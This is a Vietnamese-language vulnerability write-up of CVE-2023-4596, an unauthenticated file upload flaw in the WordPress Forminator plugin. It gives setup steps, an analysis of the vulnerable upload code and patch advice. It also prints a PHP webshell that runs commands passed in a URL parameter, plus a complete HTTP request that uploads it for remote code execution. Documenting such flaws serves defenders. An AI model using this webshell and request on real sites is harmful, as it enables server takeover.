








# Critical Arbitrary File Upload Patched in Forminator Plugin CVE-2023-4596.
- CVE-2023-4596.
```js
- The Forminator plugin for WordPress is vulnerable to arbitrary file uploads due to filed type validation occurring 
  after a file has been uploaded to the server in the upload_post_image() function in versions up to, and including, 1.24.6. 
- This makes it possible for unauthenticated attackers to upload arbitrary files on the affected site's 
  server which may make remote code execution possible.

Affected Versions: <= 1.24.6
CVSSv3 Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSSv3 Score: 9.8
```


### Setup
- Forminator Plugin 1.24.6.
- Tạo 1 form đăng bài viết 

- Tạo 1 trang dùng form để post


### Phân tích
- Lỗ hổng rất đơn giản nhưng ảnh hưởng lớn tới server.
- Lỗ hổng tồn tại ở chức năng wp-content/plugins/forminator/library/fields/postdata.php

- Chuẩn bị 1 file webshell test.php
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

- Post file đó lên thì bị lỗi định dạng file




- Đoạn code thực hiện chức năng upload bình thường

```php
    // Làm sạch file_name
    $file_name = sanitize_file_name( $_FILES[ $field_name ]['name'] ); 
    // TODO: refactor upload to use WP filesystem api.

    // Lưu content file vào tmp
    $file_data        = file_get_contents( $_FILES[ $field_name ]['tmp_name'] );

    $upload_dir       = wp_upload_dir(); // Set upload folder.
    
    // Thay đổi tên file nếu tồn tại.
    $unique_file_name = wp_unique_filename( $upload_dir['path'], $file_name );
    $filename         = basename( $unique_file_name ); // Create base file name.

    // Kiểm tra path đã tồn tại hay chưa.
    if ( wp_mkdir_p( $upload_dir['path'] ) ) {
        $file = $upload_dir['path'] . '/' . $filename;
    } else {
        $file = $upload_dir['basedir'] . '/' . $filename;
    }

```

- Lỗ hổng tại chỗ xử lý logic upload file. Ở đây lại lưu file vào server rồi mới kiểm tra extension của file. 



- File được upload xong.



- Kiểm tra ext file xử lý sau nên sẽ trả về false



- Webshell


### Payload

```php
POST /wordpress/wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Length: 1629
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1fDEB96bG5MXdfjh
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/wordpress/post-data/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: testcookie=; am_username=; am_check=; memarketing-_zldp=Mltw9Iqq5RQZSO3V%2BzsvBcNWWgn4MPqtgkD49oq5K0JAoyZxNsNt%2FX8EdhLYh1dsrq2vjv8sJRs%3D; selectedtab=2_1; selectedDropDown=monitortabtd; session_id=70169739c0413b46c980e543e69c53ee17d81244
Connection: close

------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="postdata-1-post-title"

RCE
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="postdata-1-post-image"; filename="test.php"
Content-Type: application/octet-stream

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="referer_url"


------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="forminator_nonce"

5898491232
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="_wp_http_referer"

/wordpress/post-data/
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="form_id"

37
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="page_id"

39
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="form_type"

default
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="current_url"

http://localhost/wordpress/post-data/
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="render_id"

0
------WebKitFormBoundary1fDEB96bG5MXdfjh
Content-Disposition: form-data; name="action"

forminator_submit_form_custom-forms
------WebKitFormBoundary1fDEB96bG5MXdfjh--


```

### Patch và giải pháp
- Update lên phiên bản 1.25.0 hoặc theo hướng dẫn của nhà sản xuất.
- Ở bản vá thì kiểm tra extension file xong rồi mới upload file.


# Tham khảo
- https://patchstack.com/articles/critical-arbitrary-file-upload-patched-in-forminator-plugin/
- https://www.exploit-db.com/exploits/51664
- https://plugins.trac.wordpress.org/changeset/2954409/forminator/tags/1.25.0/library/fields/postdata.php?old=2935040&old_path=forminator%2Ftags%2F1.24.6%2Flibrary%2Ffields%2Fpostdata.php

